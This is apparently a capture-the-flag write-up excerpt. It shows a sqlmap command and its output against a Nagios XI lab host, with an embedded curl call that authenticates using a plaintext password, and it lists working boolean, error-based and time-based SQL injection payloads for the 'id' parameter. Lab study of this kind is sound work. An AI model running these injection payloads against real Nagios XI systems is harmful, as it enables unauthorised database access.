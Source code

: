 ```
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id
Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   236  100   184  100    52    177     50  0:00:01  0:00:01 --:--:--   227
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ xx:xx:xx /2024-01-xx/

[xx:xx:xx] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=iaj63ftndpg...g8m537866q'). Do you want to use those [Y/n] Y
[xx:xx:xx] [INFO] testing if the target URL content is stable
[xx:xx:xx] [INFO] target URL content is stable
[xx:xx:xx] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[xx:xx:xx] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1005 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (1312=1312) THEN 3 ELSE (SELECT 3137 UNION SELECT 9791) END))&token=55f8a0ce45accc71cc208805db70c67feaf69966

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 3988 FROM(SELECT COUNT(*),CONCAT(0x7176787a71,(SELECT (ELT(3988=3988,1))),0x7171786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&token=55f8a0ce45accc71cc208805db70c67feaf69966

    Type: time-based blind
    Title: MySQL > 5.0.12 OR time-based blind (heavy query)
    Payload: action=acknowledge_banner_message&id=3 OR 7646=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)&token=55f8a0ce45accc71cc208805db70c67feaf69966
---
[xx:xx:xx] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```
